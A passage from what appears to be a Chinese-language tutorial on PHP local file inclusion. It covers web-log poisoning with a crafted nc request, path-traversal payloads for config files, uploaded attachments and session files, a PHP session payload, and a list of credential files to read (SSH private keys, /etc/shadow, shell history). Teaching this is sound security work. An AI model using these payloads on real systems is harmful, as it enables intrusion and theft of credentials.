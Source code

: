 如果没有返回响应而WEB服务器又接受了请求，那么请求的内容将原封不动的写入WEB日志，不会进行HTTP编码.

这样我们想个办法一直与WEB服务器保持TCP连接，不让WEB服务器处理响应返回，然后再由客户端的我们中断这次TCP连接，说得这么复杂其实很容易实现.只要在HTTP请求的数据包中去掉Connection HTTP标头值。

利用 `NC` 伪造没有Connection HTTP标头的请求包：

```
GET /index< >.php HTTP/1.1
Accept: */*
Accept-Language: zh-cn
Accept-Encoding: gzip, deflate
User-Agent: Mozilla/4.0 (compatible; MSIE 6.0; Windows NT 5.1; SV1; .NET CLR 2.0.50727)
Host: 192.168.3.44 
```

你会发现WEB服务器一直不会返回响应，直到我们客户端断开这次连接，这个邪恶的空格便写入了WEB日志！

### 3.3. 获取web目录或配置文件

```
?file=../../../../../../../../usr/local/apache2/conf/httpd.conf
/etc/apache2/httpd.conf
/etc/httpd/httpd.conf 
```

### 3.4. 包含上传附件

```
?file=../attachment/media/xx.file 
```

### 3.5. session 文件

包含Session文件的条件也较为苛刻，它需要攻击者能够"控制"部分Session文件的内容。

```
x|s:19:"<?php phpinfo(); ?>" 
```

PHP默认生成的Session文件往往存放在/tmp目录下

```
/tmp/sess_SESSIONID

?file=../../../../../../../tmp/sess_xxxxx 
```

session文件一般在/tmp目录下，格式为sess\_\[your phpsessid value\]，有时候也有可能在/var/lib/php5之类的，在此之前建议先读取配置文件

#### 3.5.1. 如果拥有root权限还可以试试读这些东西：

```
/root/.ssh/authorized_keys
/root/.ssh/id_rsa
/root/.ssh/id_rsa.keystore
/root/.ssh/id_rsa.pub
/root/.ssh/known_hosts

/etc/shadow

/root/.bash_history
/root/.mysql_history

/proc/self/fd/fd[0-9]* (文件标识符)
/proc/mounts
/proc/config.gz 
```
